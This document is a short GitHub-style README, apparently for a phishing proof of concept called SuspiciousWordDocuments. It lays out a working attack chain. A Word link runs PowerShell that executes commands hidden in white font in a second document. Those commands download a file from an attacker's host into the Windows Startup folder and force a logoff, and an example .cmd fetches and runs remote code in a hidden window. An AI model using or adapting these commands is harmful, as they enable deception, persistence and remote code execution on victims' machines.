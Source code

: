 # SuspiciousWordDocuments
You have received two Microsoft Word documents. Are the links safe?

# Description
Things aren't always what they seem when it comes to links. One document contains several links to different things on the web. The other looks like another plain document.
The RealJuicyWebLinks.docx file has a link that executes a PowerShell Command contained in wordfornotes.docx. Scenario: The wordfornotes commands are a way to establish persistence by grabbing the contents of a file from a hosted webserver and it's deposited in the user's Startup folder as .cmd. The .cmd example below is made to parse a file that could contain malicious code to be ran at startup. A shutdown /l command is the last step to execute the .cmd file upon login from the user.

# Remember
wordfornotes.docx is saved in white font. 

This only works on Windows 10 and not windows 11. To work properly, save both files to downloads. Add your hosted IP, directory, and file to Document1 that you wished to be parsed/saved to the startup directory.

# How to use
Link number 1 must be copied and pasted to the Window's Search Box. wordfornotes.docx cannot be opened at the same time of Window's Search Box execution. If testing, remember to kill wordfornotes.docx.

Add your IP, Directory, and filename to wordfornotes.docx. Note: commands could be encoded in base64.

Both files saved to Downloads.

If you edit RealJuicyWebLinks, the suspicious link may need to be updated as well back to the initial.

# Stages
Call the other word document
```Powershell
c:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c "&{$word = new-object -comobject word.application; $word.visible = $false; $doc = $word.Documents.Open(\"$env:userprofile\downloads\wordfornotes.docx\"); $doc.Paragraphs[1].range.text | iex}"
```
Request the commands hosted on a particular site
```Powershell
start msedge `https://www.youtube.com/watch?v=uXbGQiXsRes';iwr https://<YourIP>/Direcotory/filename -o "$env:userprofile\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\StartUp.cmd"; shutdown /l;
```

# Example .cmd
```batch
@echo off

powershell.exe -windowstyle hidden "(iwr https:// YOUR IP/DIRECTORY/filename -UseBasicParsing) | iex"
```

